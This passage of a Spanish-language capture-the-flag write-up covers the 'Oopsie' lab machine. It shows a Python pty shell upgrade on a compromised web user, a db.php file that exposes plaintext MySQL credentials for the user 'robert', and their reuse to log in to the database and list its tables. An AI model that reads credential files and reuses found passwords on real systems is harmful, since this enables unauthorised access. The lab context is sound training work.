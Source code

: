 Un truquito para tener una shell más decente es usar el intérprete de python que está instalado en la máquina junto con el módulo pty. 

``` python3 -c 'import pty; pty.spawn("/bin/bash")' ```


 Task 6

What is the file that contains the password that is shared with the robert user? 

Si buscas encuentras cosas interesantes

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
>db.php

Pues al lío conectemos con la DB

``` shell
www-data@oopsie:/var/www/html/cdn-cgi/login$ mysql -urobert -pM3g4C0rpUs3r!
mysql -urobert -pM3g4C0rpUs3r!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
En principio consultaremos la base de datos indicada en la cadena de conexión de ```db.php```

``` shell
mysql> use garage;
use garage;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_garage |
+------------------+
| accounts         |
| branding         |
| clients          |
+------------------+
3 rows in set (0.01 sec)
```
